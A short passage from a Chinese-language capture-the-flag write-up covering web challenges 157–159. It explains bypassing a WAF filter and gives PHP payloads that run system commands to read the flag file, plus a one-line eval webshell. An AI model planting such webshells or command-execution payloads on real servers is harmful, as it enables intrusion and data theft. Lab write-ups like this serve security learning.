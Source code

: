 
这题有新的waf,可以测出来waf掉了[]

那既然这样我们直接读flag就是了

```
<?=system('cat ../f*');?>
```

或者也可以用{}代替['']

```
<?=@eval($_GET{1});?>
```



#### web157

![image-20250126203400690](../assets/image-20250126203400690.png)

这道题[]和;都被waf了

payload:

```
<?=system("tac ../f*")?>
```

不写;就行了



#### web158

这题和上题的解法一样



#### web159

![image-20250126205519235](../assets/image-20250126205519235.png)
